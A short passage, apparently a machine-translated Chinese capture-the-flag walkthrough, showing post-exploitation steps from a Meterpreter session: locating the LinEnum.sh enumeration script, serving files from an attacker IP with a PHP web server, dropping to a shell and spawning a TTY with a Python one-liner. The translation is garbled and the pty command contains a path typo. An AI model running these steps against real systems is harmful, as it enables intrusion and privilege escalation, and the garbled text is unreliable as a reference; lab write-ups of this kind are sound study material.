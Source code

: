 ![Screenshot-2020-05-17-at-22.43.34](img/9184a0c67ebccdd47151e9ce7263c033.png)

在 meterpreter 中，我用

```
lls -S "LinEnum.sh"
```

![Screenshot-2020-05-17-at-23.07.42](img/327b3b7ba02d96410908801b2e0d5dcd.png)

我在另一个终端上用

```
php -S 10.10.14.36:4444
```

![Screenshot-2020-05-17-at-22.45.45](img/bfa31c2e0c5506fa77eefc531bdecaed.png)

我键入以下命令在目标系统上获得标准 shell

```
shell
```

我生了一个 TTY 贝壳

```
python3 -c 'import pty;pty.spawn("/bin/bash/")'
```
